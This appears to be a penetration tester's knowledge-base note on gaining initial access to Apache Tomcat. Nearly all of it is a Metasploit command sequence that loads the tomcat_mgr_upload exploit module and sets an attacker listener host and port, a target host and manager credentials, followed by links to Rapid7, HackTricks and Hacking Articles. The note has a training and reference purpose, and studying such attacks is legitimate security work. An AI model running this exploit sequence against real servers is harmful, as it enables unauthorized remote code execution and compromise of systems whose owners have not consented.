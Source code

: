 # Initial Access

## Upload Payload

```
msf > use exploit/multi/http/tomcat_mgr_upload

msf exploit(multi/http/tomcat_mgr_upload) > options

msf exploit(multi/http/tomcat_mgr_upload) > set lhost <attacker_IP>

msf exploit(multi/http/tomcat_mgr_upload) > set lport <attacker_PORT>

msf exploit(multi/http/tomcat_mgr_upload) > set rhost <target_IP>

msf exploit(multi/http/tomcat_mgr_upload) > run username=<username> password=<password>
```

---
## References

### Backlinks

- [[JSP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x07 - Web Panels/Apache Tomcat/Helpers/Scanners]]

### Rapid7

- [Rapid7: Metasploit Framework - Tomcat Mgr Upload Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md)

### Hacktricks

- [Hacktricks: Tomcat](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)

### Hacking Articles

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)